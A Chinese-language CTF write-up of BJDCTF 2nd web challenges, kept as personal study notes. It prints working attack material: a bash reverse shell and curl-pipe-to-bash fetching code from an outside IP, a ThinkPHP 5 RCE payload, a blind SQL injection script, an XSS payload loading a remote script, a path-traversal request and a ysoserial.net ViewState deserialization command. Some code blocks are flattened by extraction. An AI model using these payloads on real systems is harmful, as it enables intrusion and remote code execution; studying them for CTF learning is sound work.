






记录一下，以后忘记了还能看看
duangShell
一进去提示我们：how can i give you source code? .swp?!,获取源码后，利用vim再把它改回去就行，直接打开会乱码:vim -r index.php.swp恢复。

因为exec()无回显，而且没有禁curl。所以可以反弹shell~~
先查看ip地址ifconfig
进入/var/www/html写一个txt文件。
bash -i >& /dev/tcp/ip/port 0>&1ip就是本地ip,端口随便写一个
监听端口1234
再post一个girlfriend的值
girl_friend=curl 174.1.145.235/b.txt|bash
直接cat /flag是不会出来的
old-hack 题目题是thinkphp5,拿通用thinkphp5的payload打了下，然后发现版本5.0.23
然后拿5.0.23打了下，没看到flag，还以为我没打通,结果在最上面。。
1 2 3 /index .php?s=captcha _method=__construct&filter[]=system&method =get &server [REQUEST_METHOD ]=cat /flag
简单注入 hint.txt有语句提示：select * from users where username='$_POST["username"]' and password='$_POST["password"]';大师傅 的二分注入
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 import requestsimport timeurl = "http://523c9df3-1d44-44e8-bcc5-2a8ad35c3ff4.node3.buuoj.cn/" temp = {}password = "" for i in range(1 ,1000 ): time.sleep(0.06 ) low = 32 high =128 mid = (low+high)//2 while(low<high): payload = '^ (ascii(substr((password),%d,1 ))>%d) temp={"username":"admin\\","password": payload} r = requests.post(url,data=temp) print(low,high,mid,":" ) if "P3rh4ps" in r.text: low = mid+1 else : high = mid mid =(low+high)//2 if (mid ==32 or mid ==127 ): break password +=chr(mid) print(password) print("password=" ,password)
二分注入还是快的= =
XSS之光 dirb扫一下，发现有git漏洞反序列化之PHP原生类的利用
利用buu里面自带的内网xss，搞得。
1 2 3 4 5 <?php $a = new Exception("<script src=http://xss.buuoj.cn/bL6BFw></script>" ); echo urlencode(serialize($a)); 序列化： O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A48%3A%22%3Cscript+src%3Dhttp%3A%2F%2Fxss.buuoj.cn%2FbL6BFw%3E%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A3%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D

假猪套天下第一 抓包请求下发现L0g1n.php。headers信息
1 2 3 4 5 6 改cookie时间 Client-ip:127.0 .0 .1 Referer:gem-love.com User-Agent:Commodore 64 from :root@ gem-love.com via:y1ng.vip
文件探测 一贯尿性= =。header里面有信息,提示了home.php,robots里还提示了admin.php,但是只允许本地访问。

home.php?file=php://filter/read=convert.base64-encode/resource=system
base64解密后得到源码，代码审计
system.php 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 <?php error_reporting(0 ); if (!isset ($_COOKIE['y1ng' ]) || $_COOKIE['y1ng' ] !== sha1(md5('y1ng' ))){ echo "<script>alert('why you are here!');alert('fxck your scanner');alert('fxck you! get out!');</script>" ; header("Refresh:0.1;url=index.php" ); die ; } $str2 = ' Error: url invalid<br>~$ ' ; $str3 = ' Error: damn hacker!<br>~$ ' ; $str4 = ' Error: request method error<br>~$ ' ; $filter1 = '/^http:\/\/127\.0\.0\.1\//i' ; $filter2 = '/.?f.?l.?a.?g.?/i' ; if (isset ($_POST['q1' ]) && isset ($_POST['q2' ]) && isset ($_POST['q3' ]) ) { $url = $_POST['q2' ].".y1ng.txt" ; $method = $_POST['q3' ]; $str1 = "~$ python fuck.py -u \"" .$url ."\" -M $method -U y1ng -P admin123123 --neglect-negative --debug --hint=xiangdemei<br>" ; echo $str1; if (!preg_match($filter1, $url) ){ die ($str2); } if (preg_match($filter2, $url)) { die ($str3); } if (!preg_match('/^GET/i' , $method) && !preg_match('/^POST/i' , $method)) { die ($str4); } $detect = @file_get_contents($url, false ); print (sprintf("$url method&content_size:$method%d" , $detect)); } ?>
q1无限制
q2传http://127.0.0.1/admin.php?a=把后面衔接的.y1ng.txt接过去。
q3传GET或者POST，但是因为后面输出是%d是个整数,要对他进行转义利用%%转义把他转为%号加d:GET%s%
admin.php 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <?php error_reporting(0 ); session_start(); $f1ag = 'f1ag{s1mpl3_SSRF_@nd_spr1ntf}' ; function aesEn ($data, $key) $method = 'AES-128-CBC' ; $iv = md5($_SERVER['REMOTE_ADDR' ],true ); return base64_encode(openssl_encrypt($data, $method,$key, OPENSSL_RAW_DATA , $iv)); } function Check () if (isset ($_COOKIE['your_ip_address' ]) && $_COOKIE['your_ip_address' ] === md5($_SERVER['REMOTE_ADDR' ]) && $_COOKIE['y1ng' ] === sha1(md5('y1ng' ))) return true ; else return false ; } if ( $_SERVER['REMOTE_ADDR' ] == "127.0.0.1" ) { highlight_file(__FILE__ ); } else { echo "<head><title>403 Forbidden</title></head><body bgcolor=black><center><font size='10px' color=white><br>only 127.0.0.1 can access! You know what I mean right?<br>your ip address is " . $_SERVER['REMOTE_ADDR' ]; } $_SESSION['user' ] = md5($_SERVER['REMOTE_ADDR' ]); if (isset ($_GET['decrypt' ])) { $decr = $_GET['decrypt' ]; if (Check()){ $data = $_SESSION['secret' ]; include 'flag_2sln2ndln2klnlksnf.php' ; $cipher = aesEn($data, 'y1ng' ); if ($decr === $cipher){ echo WHAT_YOU_WANT; } else { die ('爬' ); } } else { header("Refresh:0.1;url=index.php" ); } } else { mt_srand(rand(0 ,9999999 )); $length = mt_rand(40 ,80 ); $_SESSION['secret' ] = bin2hex(random_bytes($length)); }
只要完成前面的if，所以要check()成立，并且`$decr===$cipher`
cookie访问之前的页面就会自动获取了
1 2 3 4 5 6 function Check () if (isset ($_COOKIE['your_ip_address' ]) && $_COOKIE['your_ip_address' ] === md5($_SERVER['REMOTE_ADDR' ]) && $_COOKIE['y1ng' ] === sha1(md5('y1ng' ))) return true ; else return false ; }
$_SERVER['REMOTE_ADDR']就是前面得174.0.222.75.
1 2 3 4 5 function aesEn ($data, $key) $method = 'AES-128-CBC' ; $iv = md5($_SERVER['REMOTE_ADDR' ],true ); return base64_encode(openssl_encrypt($data, $method,$key, OPENSSL_RAW_DATA , $iv)); }
1 2 3 4 5 6 7 8 9 function aesEn ($data, $key) $method = 'AES-128-CBC' ; $iv = md5('174.0.222.75' , true ); return base64_encode(openssl_encrypt($data, $method,$key, OPENSSL_RAW_DATA , $iv)); } $cipher = aesEn('NULL' , 'y1ng' ); echo urlencode($cipher);
如果运行的时候报Call to undefined function openssl_encrypt() 错，在php.ini搜索下;extension=php_openssl.dll去掉前面得分号即可。或者直接在线运行代码 。
EasyAspDotNet 赵师傅的题真顶。如何借助ViewState在ASP.NET中实现反序列化漏洞利用 玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 path=4.gif,看到别的大佬说有文件包含，读取web.config文件。path=../../web.config

1 curl -O http://65b7c96b-2005 -4 b6b-ba0f-485176 af77c7.node3.buuoj.cn/ImgLoad.aspx?path=../../web.config
ExploitClass.cs、System.Web.dll、System.dll文件 ysoserial.net,直接下载带exe的
1 .\ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "ExploitClass.cs;./System.dll;./System.Web.dll" --generator ="CA0B0334" --validationalg ="SHA1" --validationkey ="47A7D23AF52BEF07FB9EE7BD395CD9E19937682ECB288913CE758DE5035CF40DC4DB2B08479BF630CFEAF0BDFEE7242FC54D89745F7AF77790A4B5855A08EAC9" decryptionKey ="B0E528C949E59127E7469C9AF0764506BAFD2AB8150A75A5"


如果用brup注意__VIEWSTATE参数的编码问题

拖了好多天，终于复现完了，明天可以做别的事情了~
参考 BJDCTF 2nd EasyAspDotNet WriteUp 第二届BJDCTF 2020 全部WEB题目 Writeup Konmu 玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 如何借助ViewState在ASP.NET中实现反序列化漏洞利用 headers信息